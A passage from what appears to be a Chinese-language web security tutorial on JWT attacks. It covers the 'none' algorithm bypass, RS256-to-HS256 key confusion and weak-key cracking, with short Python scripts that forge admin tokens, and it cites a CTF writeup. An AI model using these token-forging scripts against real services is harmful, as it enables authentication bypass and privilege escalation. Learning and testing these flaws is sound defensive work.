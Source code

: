 ```json
  "alg": "HS256",
  "typ": "JWT"
}
```
但如果服务端并未对Header声明的加密算法进行强验证，我们就可以通过将alg修改来绕过签名认证，达到随意修改JWT的目的。
##### 空加密算法绕过
修改脚本
```python
import jwt

# payload
token_dict = {
    "secretid": "",
    "username": "admin",
    "password": "123",
    "iat": 1660183824
}

headers = {
    "alg": "none",
    "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                       "",  # 进行加密签名的密钥
                       algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       headers=headers
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                      )

print(jwt_token)
```
[虎符 CTF Web 部分 Writeup – glzjin](https://www.zhaoj.in/read-6512.html)
HFCTF2020的easyLogin考察了相关的知识点
因为开发者的使用不当，导致参数`alorithms`错写成了`algorithm`。`node`中的`jsonwebtoken`库中判断如果`!secret&&!argorithms`则使用传入JWT的`header`中的`algorithm`，所以只需要绕过题目中对`secretid`的限制，将`secret`置为空，就可以使用`none`算法，从而无需验证签名。
##### 将RS256修改未HS256绕过
HS256为对称加密算法，使用相同的密钥进行解密。而RS256为非对称加密算法，使用私钥对消息进行签名并使用公钥进行身份验证。
如果我们能获得公钥，并且服务端对加密算法没有进行强验证，我们就可以将header头中的算法改为HS256算法，通过公钥进行签名来生成我们需要的JWT从而实现越权等操作。
修改脚本
```python
import jwt
public = open('public.key', 'r').read()
payload={"user": "admin"}
print(jwt.encode(payload, key=public, algorithm='HS256'))
```
#### 绕过弱签名密钥
如果签名使用了弱密钥，我们可以尝试使用工具对密钥进行爆破
##### 相关工具
[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker.git)
##### 使用示例
![](https://cdn.nlark.com/yuque/0/2023/png/25358086/1702368622898-3a0fda67-54fa-4bde-9fce-6bc2dc652572.png#averageHue=%232b323e&clientId=u38095455-fa2a-4&from=paste&id=u068fe1fb&originHeight=99&originWidth=1101&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u9c1f334d-8088-400e-b168-bfa8d8cc736&title=)
#### JWT标头注入
##### 通过jwk参数注入自签名的JWT
JWK 英文全称为 JSON Web Key，是一个JSON对象，表示一个加密的密钥，他不同于alg属性，JWK是可选的，以下就是一个示例
```json
{
  "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
  "typ": "JWT",
  "alg": "RS256",
  "jwk": {
    "kty": "RSA",
```